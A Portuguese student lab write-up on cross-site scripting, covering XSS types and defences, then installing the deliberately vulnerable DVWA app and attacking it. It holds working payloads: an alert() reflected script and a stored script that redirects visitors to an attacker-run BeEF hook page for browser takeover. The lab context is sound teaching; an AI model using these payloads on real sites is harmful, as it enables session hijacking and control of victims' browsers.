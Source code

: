 # PRÁTICA XSS

## Dupla:
Anderson Felipe Costa

Antonio Thiago Costa

## O que é XSS?

O ataque de Cross-site scripting (XSS) consiste em uma vulnerabilidade causada pela falha nas validações dos parâmetros de entrada do usuário e resposta do servidor na aplicação web. Este ataque permite que um código HTML seja inserido no navegador do usuário alvo.

Tecnicamente, este problema ocorre quando um parâmetro de entrada do usuário é apresentado integralmente pelo navegador, como no caso de um código javascript que passa a ser interpretado como parte da aplicação legítima e com acesso a todas as entidades do documento (DOM). Na prática, o responsável pelo ataque executa instruções no navegador da vítima usando um aplicativo web vulnerável, modificando estruturas do documento HTML.
Algumas vezes o atacante não tem como alvo diretamente sua vítima,  pelo contrario ele explora uma vulnerabilidade em um site que o alvo pode visitar com o objetivo de entregar o JavaScript malicioso para ele. No navegador do alvo, o JavaScript malicioso parece ser como parte integrante do site, o que torna o ataque efetivo e quase imperceptível para a vítima.

Podemos considerar um JavaScript como sendo malicioso quando ele consegue acessar informações confidenciais dos usuários, como os cookies ou quando são enviadas requisições HTTP contendo scripts maliciosos que podem usar o XMLHttpRequest. Claro que estes são apenas alguns exemplos, mesmo porque os ataques de XSS permitem uma série de combinações no ataque.

Um bom exemplo é uma aplicação vuneravel é o fórum, em que o usuário tenha permissão para incluir mensagens de sua própria autoria para que os outros usuários possam ler. Se este aplicativo não filtrar corretamente os códigos HTML, um usuário mal intencionado pode injetar instruções para leitura de informações específicas do usuário legítimo, tais como códigos de sessão, e até mesmo executar tarefas específicas como enviar mensagens de maneira arbitrária para o fórum.

## Tipos de XSS

Existem três tipos mais conhecidos são eles:

* XSS Stored que consiste em um código malicioso que pode ser permanentemente armazenado no servidor web/aplicação, como em um banco de dados, fórum, campo de comentários etc. O usuário torna-se vítima ao acessar a área afetada pelo armazenamento do código mal intencionado.Esse tipo de XSS são geralmente mais significativos do que outros, uma vez que um usuário mal intencionado pode potencialmente atingir um grande número usuários apenas com uma ação específica e facilitar o processo de engenharia social. Em alguns casos, o navegador afetado pode até mesmo se comportar como se estivesse infectado por um worm, replicando cópias para cada usuário que execute o código mal intencionado.

* XSS Reflected script é ativado por meio de um link, que envia uma solicitação para um site com uma vulnerabilidade que permite a execução de scripts mal-intencionados. A vulnerabilidade geralmente é resultado de solicitações recebidas sem criptografia, o que permite a manipulação das funções de um aplicativo da Web e a ativação de scripts mal-intencionados. Para distribuir o link malicioso, um criminoso normalmente o incorporam em um site de e-mail ou de terceiros (por exemplo, em uma seção de comentários ou em mídias sociais). O link é incorporado dentro de um texto âncora que faz com que o usuário clique nele, o que inicia a solicitação XSS para um site explorado, refletindo o ataque de volta ao usuário. Ao contrário de um ataque armazenado, em que o autor deve localizar um site que permita a injeção permanente de scripts mal-intencionados, os ataques refletidos exigem apenas que o script mal-intencionado seja incorporado a um link. Sabendo disto, para que o ataque seja bem-sucedido, o usuário precisa clicar no link infectado. Ataques refletidos são mais comuns. Os ataques refletidos não têm o mesmo alcance que os ataques XSS Stored. XSS reflected podem ser evitados por usuários vigilantes. Como pode se ver esse tipo de ataque é executado por meio de engenharia social, convencendo o usuário alvo que a requisição a ser realizada é legítima. As consequencias variam de acordo com a natureza da vulnerabilidade, podendo variar do sequestro de sessões válidas no sistema, roubo de credenciais ou realização de atividades ilicitas em nome do usuário afetado.

* Dom Based XSS: É o tipo mais difícil de ser encontrado entre os três, porque depende de uma das vulnerabilidades em algum dos componentes da página, sendo que o script faz alterações no HTML atual da página através da manipulação do DOM (Document Object Model). Recentemente, o tema TwentyFifteen, que é padrão nas instalações do WordPress, foi alvo desse tipo de vulnerabilidade e deixou milhões de sites vulneráveis.

## Problemas para impedir ataques XSS

Uma das principais dificuldades na prevenção de vulnerabilidades XSS é a codificação adequada de caracteres. Em alguns casos, o servidor da Web ou o aplicativo da Web podem não filtrar algumas codificações de caracteres, portanto, por exemplo, o aplicativo da Web pode filtrar "<script>", mas pode não filtrar% 3cscript% 3e que simplesmente inclui outra codificação de tags.

## Métodos de prevenção

* Encoding e Validation: A função do Encoding é filtrar os dados que o usuário irá inserir para que o navegador o interprete apenas como dado e não como código. Um exemplo clássico é a conversão em HTML, como "<" e ">" em "&lt;" e "&gt;". O objetivo do Validation é filtrar todas as entradas do usuário que podem ser maliciosas para a sua aplicação, e essa será a sua primeira linha de defesa contra os ataques XSS. Essa validação funciona melhor através da prevenção sobre os dados que possuem limites de valores. Um exemplo é uma variável “Int” (inteiro), que não precisa conter códigos HTML.

* Use bibliotecas Anti-XSS: As bibliotecas Anti-XSS fornecem um conjunto de funções que irá facilitar o filtro dos dados para bloquear os 
ataques XSS. algumas delas:

1. Microsoft AntiXSS Library .NET 
2. HTML Purifier  PHP
3. Java Encoder Java

* Utilize o Content Security Policy (CSP): O Content Security Policy é um cabeçalho HTTP que fornece uma whitelist de recursos confiáveis no qual o navegador poderá confiar. Um recurso pode ser um script, CSS, imagem ou outro tipo de arquivo que poderá ser indicado. Isso significa que mesmo se um atacante conseguir injetar um código XSS no seu site, o CSP poderá impedir a sua execução. O único problema atual do CSP é que a interpretação é diferente em alguns navegadores e por isso você terá que fazer um tratamento de qual Header enviar. Usando a flag HttpOnly: O HttpOnly é uma flag adicional que pode ser incluída junto com a opção Set-Cookie. Quando o HttpOnly é usado, o JavaScript não será capaz de ler esse cookie protegido se acontecer a exploração do XSS do lado do cliente. Caso o navegador suporte essa opção, mesmo que a falha de XSS exista e o atacante consiga fazer uma vítima acessar o link que pode explorar a falha, o navegador não irá fornecer os dados do cookie para o atacante. X-XSS-Protection no Header: Este cabeçalho pode ser utilizado para configurar uma proteção no navegador contra ataques XSS Reflected. Atualmente, apenas os navegadores Internet Explorer, Google Chrome e Safari (WebKit) o suportam.

## INSTALAÇÃO DO DVWA E APRESENTAÇÃO DO BEFF

### Servidor APACHE2 - Ubuntu Server
### Atacante - Kali Linux

1. Instalação normal do Ubuntu server, até chegar a Seleção de pacotes, nela selecione LAMP server e OpenSSh server.
![imagem01](imagens/01.png)
####Obs: Caso não for utilizar o Ubuntu Server basta executar

```
sudo apt install lamp-server^ 

sudo apt install openssh-server
```

2. Após o processo de instalação do S.O e o LAMP, exeute o comando abaixo, para remover os pacotes php:

```
sudo apt-get purge `dpkg -l | grep php | awk '{print $2}' | tr "\n" " "`
```
![imagem03](imagens/03.png)

3. Em Seguida, inserir um repositorio de onde sera baixado o php necessario para DVWA e um update:

```
sudo add-apt-repository ppa:ondrej/php
sudo apt update
```
![imagem03](imagens/04.png)

4. Neste passo instale o php5.6 e os modulos necessarios além do unzip com:
```
sudo apt install php5.6 php5.6-gd php5.6-mbstring php5.6-mcrypt php5.6-mysql php5.6-xml unzip
```
![imagem07](imagens/07.png)

5. Inicie o apache:
```
sudo systemctl start apache2
```

6. Ative o módulo do php5.6 no apache:
```
sudo a2enmod php5.6
```
![imagem09](imagens/09.png)

7. Entre na pasta /var/www onde será baixado o pacote DVWA e execute o wget e o unzip:
```
cd /var/www
sudo wget https://github.com/ethicalhack3r/DVWA/archive/master.zip
sudo unzip master.zip -d html
```

8. Agora entre na pasta html e mude o nome da pasta descompactada para facilitar o acesso:
```
cd html
sudo mv html/DVWA-master html/dvwa
```

9. Agora altere a linha com allow_url_include de off para on:
```
sudo vim /etc/php/5.6/apache2/php.ini
```
![imagem17](imagens/17.png)

10. Agora copie o modelo do arquivo config do DVWA executando:
```
sudo cp dvwa/config/config.inc.php.dist dvwa/config/config.inc.php
```

11. Altere o arquivo criado:
```
sudo vim dvwa/config/config.inc.php
```
![imagem22](imagens/22.png)
Obs: Neste arquivo deixe o usuario como root e em db_password insira a senha configurada na instalação, caso não tenha senha, deixe somente '';.

12. Altere também o arquivo xss_s, para poder inserir mais caracteres no campo de comentarios do XSS Stored, necessario para poder escrever o script completo.
```
sudo vim html/dvwa/vulnerabilities/xss_s/index.php
```

Busque por mtxMessage
![imagem23](imagens/22.1.png)

Altere o proximo numero após maxlenght
![imagem24](imagens/22.2.png)

![imagem25](imagens/22.3.png)

13. Reinicie o apache
```
sudo systemctl restart apache2
```

14. Após toda a configuração, vá ao navegador e insira a URL IP-do-servidor/dvwa. Neste ponto a pagina é aberta, após checar todos os pontos necessarios clique em Create / Reset Database:

![imagem26](imagens/23.png)

Tela de login do DVWA - Usuario: admin e senha:password
![imagem27](imagens/24.png)

Após inserir usuario e senha temos a seguinte tela:

![imagem28](imagens/25.png)
Nela temos todas as opções de teste de ataque, nesta pagina clique em DVWA Security para alterar a dificuldade do ataque. Vai estar em impossible, altere para Low e clique em Submit.

## Ataques

### XSS Reflected
Clique em XSS(Reflected) e no campo de texto insira.
```
<script type="text/javascript"> alert('texto'); </script>
```
![imagem29](imagens/26.png)
Devera aparecer esta tela de pop-up com o texto inserido.

### XSS Stored

Para este ataque utilizaremos o Beef xss framework, uma ferramenta de pentest do Kali Linux
![imagem30](imagens/27.png)

1. Abra o beef

Está é a tela inicial do beef, o usuario padrão é beef e a senha igual
![imagem31](imagens/28.png)

2. No DVWA, insira no campo mensagem este código:
```
<script> document.location="http://Seu-IP/demos/butcher/index.html" </script>
```
Este link direciona para uma pagina de teste de ataque XSS pronta. No campo nome coloque qualquer coisa

![imagem32](imagens/29.png)

3. Voltando ao beff, no lado esquerdo da página surge o IP do browser infectado pela pagina.
![imagem33](imagens/30.png)

4. Clicando no IP da vitima recebemos varias opções, podendo o atacante com este acesso fazer outros ataques ao usuario infectado atraves do navegador.

![imagem34](imagens/31.png)

5. Agora é so testar as opções e se divertir!


## Prática Proposta

Instalar o DVWA e realizar um XSS Reflected, fazendo surgiu um pop-up, apresentando o nome do aluno, printar esta tela e postar no Git Hub.


## Referências

https://imasters.com.br/devsecops/5-formas-para-prevenir-os-ataques-xss

https://www.owasp.org/index.php/Testing_for_Reflected_Cross_site_scripting_(OTG-INPVAL-001)

https://www.incapsula.com/web-application-security/reflected-xss-attacks.html

http://www.redesegura.com.br/2012/01/saiba-mais-sobre-o-cross-site-scripting-xss/

https://www.youtube.com/watch?v=OVLz6RgOjIY

https://medium.com/@GustavoOliveira/xss-cross-site-scripting-ae5fe11b0f2e

https://portswigger.net/kb/issues/00200300_cross-site-scripting-reflected

https://github.com/ethicalhack3r/DVWA
